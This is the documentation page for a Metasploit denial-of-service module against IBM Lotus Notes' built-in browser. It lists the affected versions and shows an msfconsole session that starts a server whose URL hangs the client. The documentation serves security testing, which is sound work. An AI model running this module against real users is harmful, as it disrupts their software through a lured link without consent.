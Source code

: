 ## Vulnerable Application
This module exploits a vulnerability in the built-in web-browser of IBM Lotus Notes client application.

If a user is persuaded to click on a malicious link, it would open up many file select dialog boxes which, 
would cause the client hang and have to be restarted.

Affected Products and Versions

IBM Notes 9.0.1 to 9.0.1 FP8 IF1
IBM Notes 9.0 to 9.0 IF4.
IBM Notes 8.5.3 to 8.5.3 FP6 IF13.
IBM Notes 8.5.2 to 8.5.2 FP4 IF3.
IBM Notes 8.5.1. to 8.5.1 FP5 IF5.
IBM Notes 8.5 release

Related security bulletin from IBM: http://www-01.ibm.com/support/docview.wss?uid=swg21999384 

## Verification Steps

Start msfconsole

`use auxiliary/dos/http/ibm_lotus_notes2.rb`

Set `SRVHOST`

Set `SRVPORT`

run (Server started)
Visit server URL in the built-in web-browser of IBM Notes client application

## Scenarios

```
msf > use auxiliary/dos/http/ibm_lotus_notes2 
msf auxiliary(ibm_lotus_notes2) > show options 

Module options (auxiliary/dos/http/ibm_lotus_notes2):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)


Auxiliary action:

   Name       Description
   ----       -----------
   WebServer  


msf auxiliary(ibm_lotus_notes2) > set SRVHOST 192.168.0.50
SRVHOST => 192.168.0.50
msf auxiliary(ibm_lotus_notes2) > set SRVPORT 9092
SRVPORT => 9092
msf auxiliary(ibm_lotus_notes2) > run
[*] Auxiliary module execution completed
msf auxiliary(ibm_lotus_notes2) > 
[*] Using URL: http://192.168.0.50:9092/mypath
[*] Server started.
msf auxiliary(ibm_lotus_notes2) > 
```

At this point, the target should use the built-in web browser of their IBM Lotus Notes client to navigate to the above "Using URL" value.  And then they should see their Notes app become unresponsive.
